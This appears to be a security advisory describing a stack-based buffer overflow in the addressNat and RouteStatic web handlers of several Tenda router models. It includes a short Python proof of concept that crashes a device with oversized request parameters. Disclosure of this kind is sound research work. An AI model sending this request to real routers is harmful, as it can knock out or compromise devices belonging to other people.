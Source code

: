 # Tenda routerstatic api vulnerability
These vulnerability lie in the /goform/addressNat or /goform/RouteStatic page which influence the device: FH452, F451, F453, CH22. And influence the lastest version of
FH451_V1.0.0.5,  FH451_V1.0.0.7, FH451_V1.0.0.9, F451_V1.0.0.7, F451_V1.0.0.9, F453_V1.0.0.3, V1.0.0.1. 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function fromAddressNat or fromRouteStatic.
The example is as follows:

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/F456/41/vlun1.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## PoC
For example:
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.
